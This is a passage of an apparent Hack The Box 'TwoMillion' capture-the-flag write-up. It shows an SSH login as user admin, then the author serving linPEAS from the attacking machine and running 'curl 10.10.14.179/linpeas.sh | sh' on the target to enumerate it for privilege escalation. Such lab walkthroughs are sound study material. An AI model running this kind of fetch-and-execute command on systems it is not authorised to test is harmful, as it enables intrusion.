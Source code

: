 ```console
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ 
```

## LINPEAS Enum

First thing I will do is run [LINPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to enumerate the box and see if we find anything. This could have been done with the previous user as well but I never thought of that, was just busy searching for that first flag.


### Setup
HOST:<br>

```console
toastydz@parrot$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
...SNIP...
Length: 676221 (660K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 660.37K  --.-KB/s    in 0.09s   

2023-07-28 19:30:39 (7.23 MB/s) - ‘linpeas.sh’ saved [676221/676221]
toastydz@parrot$ sudo python3 -m http.server 80
[sudo] password for toastydz: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

FROM SSH SESSION (we pipe it to linpeas.txt so we can read through it after):
```console
admin@2million:~$ curl 10.10.14.179/linpeas.sh | sh > linpeas.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
 34  660k   34  230k    0     0  99992      0  0:00:06  0:00:02  0:00:04   97k. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 100  660k  100  660k    0     0   8938      0  0:01:15  0:01:15 --:--:--  8938
find: ‘/var/lib/nginx/proxy’: Permission denied
find: ‘/var/lib/nginx/fastcgi’: Permission denied
find: ‘/var/lib/nginx/uwsgi’: Permission denied
find: ‘/var/lib/nginx/body’: Permission denied
find: ‘/var/lib/nginx/scgi’: Permission denied
sh: 5374: Syntax error: Unterminated quoted string
```
